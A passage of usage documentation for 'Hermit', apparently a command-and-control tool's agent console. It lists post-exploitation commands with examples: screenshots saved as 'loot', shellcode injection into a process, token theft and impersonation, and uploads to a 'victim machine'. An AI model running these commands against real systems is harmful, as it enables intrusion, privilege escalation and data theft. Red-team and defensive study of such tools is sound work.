 Takes a screenshot and save it as PNG file.

```sh
Hermit [agent-abcd] > screenshot
```

After successful, the captured image file is saved under `$HOME/.hermit/server/agents/agent-<name>/loot/screenshots` folder.

## `shellcode`

Injects shellcode to specified process.

```sh
# -p: target process ID
# -f: a shellcode file path
Hermit [agent-abcd] > shellcode -p 1234 -f /path/to/shellcode.bin
```

To see running processes and PIDs, use `ps ls` task.

## `sleep`

Changes the Sleep time (N seconds).

```sh
Hermit [agent-abcd] > sleep 10
```

## `token`

Manages token.

### `token revert`

Reverts back to the original process token.

### `token steal`

Steal token from a specified process and impersonate.  
Please specify either `--process` or `--login` flag.

```sh
# --process: Execute process with stolen token.
Hermit [agent-abcd] > token steal --pid 1234 --process notepad.exe

# --login: Impersonate logged on.
Hermit [agent-abcd] > token steal --pid 1234 --login
```

## `upload`

Upload a file to victim machine.

```sh
Hermit [agent-abcd] > upload /tmp/example.txt C:/Users/John/Desktop/example.txt
```

